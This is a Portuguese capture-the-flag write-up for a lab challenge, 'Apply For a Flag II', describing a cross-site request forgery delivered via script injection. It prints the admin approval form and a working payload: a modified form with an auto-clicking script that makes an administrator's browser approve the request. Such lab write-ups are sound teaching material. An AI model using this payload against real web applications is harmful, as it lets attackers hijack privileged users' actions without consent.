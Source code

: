 # CTF #6 - Apply For a Flag II

Primeiramente, notamos que, quando clicamos no botão **submit**, no site `http://ctf-fsi.fe.up.pt:5004/request`, e no botão **page**, somos redirecionados para o site `http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3`, em que **84da570ff0bfd81b1d9adf6064053920675bf1e3** é o **id** do pedido, que possui 2 botões que representam as 2 escolhas que o admin pode ter em relação ao pedido da flag: **Give the flag** e **Mark as read**.<br>

Analisando o **html** da página notamos que o botão **Give the flag** está envolvido num **form** da seguinte forma:

```html
<form method="POST" action="/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">
    <div class="submit">       
        <input type="submit" id="giveflag" value="Give the flag" disabled>       
    </div>
</form>
```

Portanto, para construirmos o nosso ataque, fizemos o seguinte:

- Retiramos a flag **disabled** do input que tem o botão
- Adicionamos `http://ctf-fsi.fe.up.pt:5005` ao início do link da action do form
- Criamos um script que vai clicar no botão com o **id** = **giveflag** e submeter o form logo após o código correr

No final, o form que submetemos no input `Beg for a flag` foi o seguinte:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/84da570ff0bfd81b1d9adf6064053920675bf1e3/approve" role="form">     
	<div class="submit">                  
		<input type="submit" id="giveflag" value="Give the flag">
	</div>  
	<script> 
        document.getElementById("giveflag").click();
    </script>
</form>
```

Por fim, para concluir o nosso ataque, tivemos que desativar o javascript, através das definições do browser, para impedir que fossemos redirecionados.

Após submeter o form alterado no input `Beg for a flag` e desativado o javascript, basta dar refresh à página que a flag estará presente onde costuma estar escrito **Your request hasn't been evaluated yet!**.
